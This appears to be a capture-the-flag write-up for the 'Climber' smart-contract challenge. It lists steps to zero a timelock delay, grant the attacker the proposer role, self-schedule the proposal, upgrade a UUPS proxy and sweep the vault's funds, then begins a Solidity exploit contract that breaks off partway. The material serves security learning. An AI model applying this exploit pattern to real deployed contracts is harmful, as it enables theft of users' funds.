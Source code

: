 ## 12. Climber

To exploit this challenge, the following steps need to be done:

1. Build the proposal for the `ClimberTimelock` contract with the following calls:
   
   1. Call `updateDelay()` and change the delay value to 0
   
   2. Make the exploiter contract as `PROPOSER_ROLE`
   
   3. Call the exploiter contract `scheduleProposal()` function to schedule the proposal
   
   4. Update proxy (OpenZeppelin's `UUPSUpgradeable`) to use this contract as implementation instead
   
   5. Call the `sweepFunds()` function from the exploiter contract to take all funds

2. Implement `scheduleProposal()` function

3. Implement `sweepFunds()`  function

4. Implement `executeProposal()` function

5. **IMPORTANT:** do not forget to implement the `_authorizeUpgrade()` function, required function for inheriting from UUPSUpgradeable

Solution (contract):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "./ClimberTimelock.sol";
import "./ClimberVault.sol";

contract ClimberExploit is UUPSUpgradeable {
    IERC20 immutable token;
    ClimberTimelock immutable timelock;
    ClimberVault immutable vault;
    address immutable attacker;

    constructor(
        address _token,
        address payable _timelock,
        address _vault,
        address _attacker
    ) {
        token = IERC20(_token);
        timelock = ClimberTimelock(_timelock);
        vault = ClimberVault(_vault);
        attacker = _attacker;
    }

    function buildProposal()
        public
        view
        returns (
            address[] memory,
            uint256[] memory,
            bytes[] memory
        )
    {
        address[] memory targets = new address[](5);
        uint256[] memory values = new uint256[](5);
        bytes[] memory dataElements = new bytes[](5);

        // call updateDelay and change the delay value to 0
```
